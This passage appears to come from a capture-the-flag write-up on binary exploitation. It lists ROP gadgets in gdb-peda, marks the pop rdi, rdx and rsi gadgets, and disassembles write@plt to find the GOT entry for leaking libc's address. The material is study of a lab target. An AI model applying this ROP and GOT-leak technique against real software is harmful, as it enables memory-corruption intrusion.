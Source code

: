```

gdb-peda$ rop                                                     
Gadgets information                                                                            
============================================================                                                 
0x00000000000011d3 : add byte ptr [rax], 0 ; add byte ptr [rax], al ; ret
0x00000000000011d4 : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
...[snip]...
0x000000000000124f : pop rbp ; ret
0x000000000000164b : pop rdi ; ret   <-- rdi
0x0000000000001265 : pop rdx ; ret   <-- rdx
0x0000000000001649 : pop rsi ; pop r15 ; ret   <-- rsi (if I don't mind stomping r15)
0x0000000000001645 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000001016 : ret
0x0000000000001072 : ret 0x2f
...[snip]...

```

I can grab the offsets to the three I need, and add the base address to get their address.

#### write GOT and PLT

The GOT address will hold the address of `write` in libc as it’s loaded. That’s what I want to leak. The PLT is the table of code that contains the stubs to call the dynamic linker. So the first time a function is called, the GOT jump right back to the PLT which calls the linker. The linker updates the GOT so the next time it’s called, it goes right to the function in libc. The PLT address will be constant relative to the program base. Since I already leaked that, I will be able to call this. I just need to know the offset. In this case, I can see it by disassembling some of the code:

```

gdb-peda$ x/10i 0x55d9d3d0d546
   0x55d9d3d0d546:      lea    esi,[rip+0x2b94]        # 0x55d9d3d100e0
   0x55d9d3d0d54c:      mov    edi,eax
   0x55d9d3d0d54e:      call   0x55d9d3d0d050 <write@plt>
   0x55d9d3d0d553:      mov    eax,DWORD PTR [rbp-0x14]
   0x55d9d3d0d556:      mov    edi,eax
   0x55d9d3d0d558:      mov    eax,0x0
   0x55d9d3d0d55d:      call   0x55d9d3d0d59a
=> 0x55d9d3d0d562:      mov    eax,DWORD PTR [rbp-0x14]
   0x55d9d3d0d565:      mov    ecx,0x0
   0x55d9d3d0d56a:      mov    edx,0x6
gdb-peda$ disassemble 0x55d9d3d0d050
Dump of assembler code for function write@plt:
   0x000055d9d3d0d050 <+0>:     jmp    QWORD PTR [rip+0x2fd2]        # 0x55d9d3d10028 <write@got.plt>
   0x000055d9d3d0d056 <+6>:     push   0x2
   0x000055d9d3d0d05b <+11>:    jmp    0x55d9d3d0d020
End of assembler dump.

```
